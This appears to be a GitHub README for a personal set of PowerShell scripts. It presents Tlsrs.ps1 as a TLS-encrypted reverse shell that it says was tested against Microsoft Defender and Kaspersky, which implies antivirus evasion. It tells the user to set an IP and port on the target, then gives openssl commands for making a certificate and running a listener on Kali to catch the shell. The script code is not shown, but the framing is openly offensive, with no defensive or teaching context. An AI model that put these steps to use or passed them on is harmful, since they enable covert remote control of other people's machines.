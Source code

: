 # Powershell Scripts by me ;)
##################################################################################################
Tlsrs.ps1 : This is a PowerShell ReverseShell that uses TLS to establish a TCP connection.
By now, this script has been tested on Microsoft Defender and Kaspersky ;)
On Target:
just change the IP and Port and run it in Powershell

On Kali:
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 4443
##################################################################################################


